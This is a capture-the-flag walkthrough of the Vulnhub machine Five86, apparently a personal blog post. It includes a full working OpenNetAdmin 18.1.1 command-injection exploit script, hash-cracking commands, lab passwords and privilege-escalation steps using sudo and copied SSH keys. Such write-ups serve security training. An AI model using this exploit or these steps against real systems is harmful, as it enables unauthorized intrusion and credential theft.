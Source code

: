 ```yaml
---
layout: post
title: Vulnhub - Five86 writeup
date: 2019-12-25 10:00 AM
---
```


__WARNING__: There were some changes made after I beta tested the machine so you might not see some things at the place this writeup says so but you would still be able to root the machine with the help of this writeup.

## Nmap

![](nmap.png)

***

## HTTP

When we visit the website on port 80 we see page that have a `HINT` for us:

![](website.png)

Since there wasn't much on the page I ran gobuster on it.

![](gobuster.png)

we can see that there is a `robots.txt` file there.

![](robots.png)

There is only one entry in that file i.e `/ona`. If we visit that we are given access to a `opennetadmin` interface with guest login.

![](ona.png)

I tried looking around the interface but couldn't find anything interesting and also for some reason my mind was trying to find some password hashes since the hint said something about `hashcat` and we know hashcat only works on hashes of some kind.

I searched `opennetadmin` on `searchsploit` and found an exploit for version `18.1.1`.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

If we run
```bash
bash exp.sh http://192.168.56.145/ona/
```

We'll get a shell but in some way it is restricted cause we cannot do things like change directory to something else like `cd /home` etc.

![](shell.png)

In this shell we can run `ls` or `cat` type command but we cannot leave the directory we are currently in, it some kind of sandbox. First I thought since we cannot leave the directory meaning we have to look within the content of this directory but then I noticed something if we run any command that might result in error, the error isn't shown. Like `cat /etc/shadow` would give some kind of `permission denied` but we don't see any error, so some way these errors are being compressed.

So I ran the following command to find all the file `www-data` have access to.

```bash
$ find / -type f -user www-data
```

__CMD Breakdown__

* find - is a linux command to find anything like file or directory.
* The first argument i.e `/` is the place to perform the search.
* `-type` - It takes `f` or `d` resembling what we are searching.
    - `f` - For files
    - `d` - For directories
* `-user` - This tells in connection to which user.
This command will search all the `files` that have permission for `www-data` under `/`(complete file system)

![](output.png)

We can see that there are two files that `www-data` have permission for. If we read the `/var/www/html/reports/.htaccess` file we'll get the following output:

![](pass-path.png)

In the output we can see `AuthUserFile` path if we read that we'll get a password hash for user `douglas`

![](pass-hash.png)

```
douglas:$apr1$jHPnRKKJ$kmU1v2VAklzsKiNdOv0cb1
```

Now we can run hashcat on this hash to crack the password. We can use the following command to crack with `hashcat`

```bash
➜ hashcat -m 1600 hash.txt --force -a 3 -1 aefhrt ?1?1?1?1?1?1?1?1 -O
```

But for some reason hashcat was acting up so I made a list using `crunch` and then used `jtr` to crack using that list.

```bash
➜ crunch 8 8 aefhrt > password.txt
➜ john --wordlist=password.txt hash.txt
```

![](cracker.png)

`douglas:fatherrr`

We can use this password to login via `SSH`

![](ssh.png)

***

## Privilege Escalation

The first thing I checked was the sudo right for `douglas`

![](sudo-right.png)

We can run `cp` and `ls` as `jen` meaning we'll be able to look into `/home/jen` directory and see if there is something worth taking.

![](jen-dir.png)

So we can copy files with cp command in `/tmp` but issue is that we still won't be able to open that file cause it will have `jen` permission.

To bypass that we can just download those files on our own system and open it normally.

```bash
sudo -u jen /bin/cp /home/jen/keys.tar.gz /tmp/
```

Then start `python -m http.server` and get that tar file. That file had private SSH key for `jen`. We can just use those to login as `jen`.

```bash
ssh jen@192.168.56.145 -i id_rsa
```

![](ssh-jen.png)

I again ran the `find` command but this type to look for `jen` files and found that there was a `/var/mail/jen`.

![](mail.png)

we can see that there is the password for `moss`.

`moss:Fire!Fire!`

Then in `moss` home directory I found that there was a hidden directory named `.games` in there was a binary named `upyourgame` now TBH I don't know what it was I just ran it and typed yes and no and got root.

![](weird.png)

![](root.png)

***

This was an a nice machine and I really liked it. Thanks to [@DCAU7](https://twitter.com/DCAU7) or I should say [@Five86_x](https://twitter.com/Five86_x/) for letting me beta test this.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
